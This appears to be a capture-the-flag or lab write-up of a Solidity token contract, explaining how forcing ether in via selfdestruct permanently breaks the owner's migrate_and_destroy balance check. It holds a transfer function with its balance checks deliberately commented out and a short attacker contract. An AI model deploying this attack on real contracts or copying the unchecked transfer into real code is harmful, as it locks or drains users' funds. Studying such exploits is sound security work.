        Change instances of the deprecated `suicide` opcode to `selfdestruct` (line :181)
  - Set the owner as an `address payable` type (line :6), and do the same with the arg `newOwner` on line :18)
  - Comment out a couple of lines to allow for transfers (idk why they were there in the first place, tbh...) The final `MyAdvancedToken._transfer()` should look like this:

```js
/* Internal transfer, only can be called by this contract */
function _transfer(address _from, address _to, uint _value) internal {
    require (_to != address (0x0) );                               // Prevent transfer to 0x0 address.
//        require (balanceOf[_from] >= _value);               // Check if the sender has enough
    require (balanceOf[_to] + _value >= balanceOf[_to]); // Check for overflows
//        require(!frozenAccount[_from]);                     // Check if sender is frozen
    require(!frozenAccount[_to]);                       // Check if recipient is frozen
//        balanceOf[_from] -= _value;                         // Subtract from the sender
    balanceOf[_to] += _value;                           // Add the same to the recipient
    emit Transfer(_from, _to, _value);
}
```

## Vulnerability explanation

**BEWARE: Blockscout sucks big ass and doesn't properly show destructed contracts**

To verify if a contract is really gone, use this (from the browser): `await web3.eth.getCode ("<the address of the contract>")`
If it returns simply `0x` (and nothing else), then it was properly destroyed

This contract is designed so anyone can exchange tokens for ether, with a 1-to-1 relationship.
So, whenever anyone calls the method `buy()` with 1 ETH, they get 1 TST token back.

At any moment, the owner can call the method `migrate_and_destroy()` to get all the ETH back and destroy the contract (usual when upgrading contracts to newer versions or whatever).
To verify, before calling `selfdestruct`, the contract checks that the current balance in ETH is the same as the amount of tokens issued.
If everything goes well, the transaction succeeds and the owner gets all that sweet sweet ether.

This check should never fail, because there's no other way to pay ether directly to the contract (if a regular transaction is issued, it gets rejected due to the lack of a `receive` or `fallback` functions)

However, a malicious smart contract could `selfdestruct` itself, which sends all funds to the target address without triggering any regular transfer, to force the victim to increase their balance, even if it's just 1 wei.
After this happens, the owner will never be able to call `migrate_and_destroy`, since the verification will always fail.

## Full exploit

This is the malicious smart contract:
```js
pragma solidity ^0.5.0;

import "hardhat/console.sol";

contract SelfDestructor {

    function attack (address payable targetAddress) payable public {
        selfdestruct (targetAddress);
    }
}
```
